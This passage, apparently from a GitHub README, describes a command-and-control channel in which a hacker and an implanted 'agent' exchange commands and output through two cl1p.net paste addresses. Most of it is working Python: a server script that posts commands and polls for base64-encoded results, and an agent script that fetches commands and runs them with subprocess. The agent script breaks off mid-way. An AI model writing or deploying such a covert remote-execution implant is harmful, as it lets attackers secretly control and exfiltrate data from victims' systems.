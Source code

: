 In [cl1p](https://cl1p.net/) a scenario that comes to mind is to have two separate addresses, one for the hacker to store the command to be exeucted by the agent and another for the agent to store the output of the command into it.


### Server
```python
import requests
from bs4 import BeautifulSoup
import base64
import time
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
RESPONSE_ID = "REDACTED_ID"
COMMAND_ID = "REDACTED_ID"

while True:
    cmd = input(": ")
    data = {
    'ttl': '0',
    'content': cmd,
    }
    response = requests.post('https://cl1p.net/'+COMMAND_ID, data=data, verify=False)
    while True:
        response = requests.get('https://cl1p.net/'+RESPONSE_ID, verify=False)
        soup = BeautifulSoup(response.text, 'html.parser')
        textarea = soup.find('textarea', {'id': 'cl1pTextArea'})

        if textarea:
            content = textarea.get_text().strip()
            content = base64.b64decode(content)
            print(content.decode())
            break
        else:
            time.sleep(1)
```
This code runs on the server side, where it continuously waits for input. Once input is received, it sends a request to a specific cl1p address to write the input there which is put in `content`. `ttl` is set to `0` for the cl1p website to automatically delete the content once viewed. Afterward, the server keeps monitoring a different cl1p address to check for the output of the command.

### Agent
```Python
import requests
from bs4 import BeautifulSoup
import subprocess
import base64
import time
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
RESPONSE_ID = "REDACTED_ID"
COMMAND_ID = "REDACTED_ID"
def execute_system_command(cmd):
    output = subprocess.getstatusoutput(cmd)
    return output
while True:
    response = requests.get('https://cl1p.net/'+COMMAND_ID, verify=False)
    if response.status_code == 200:
        soup = BeautifulSoup(response.text, 'html.parser')
        textarea = soup.find('textarea', {'id': 'cl1pTextArea'})
        if textarea:
            content = textarea.get_text().strip()
            output = execute_system_command(content)[1]
            data = {
```